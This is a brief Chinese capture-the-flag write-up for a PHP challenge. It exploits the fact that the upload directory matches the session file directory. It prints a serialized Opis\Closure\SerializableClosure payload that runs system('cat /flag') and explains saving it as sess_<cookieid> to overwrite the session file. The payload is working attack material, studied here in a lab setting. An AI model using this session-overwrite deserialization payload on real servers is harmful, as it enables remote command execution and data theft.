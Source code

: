 # writeup

简单的session 反序列化。

发现题目上传路径与sess文件路径相同。所以考虑覆盖sess文件。

```php
a|C:32:"Opis\Closure\SerializableClosure":144:{a:5:{s:3:"use";a:0:{}s:8:"function";s:21:"(system('cat /flag'))";s:5:"scope";N;s:4:"this";N;s:4:"self";s:32:"00000000006a66b80000000014e7edfe";}}
```

将以上内容保存为名为
```
"sess_" + <cookieid>
```

再次访问index.php即得到flag。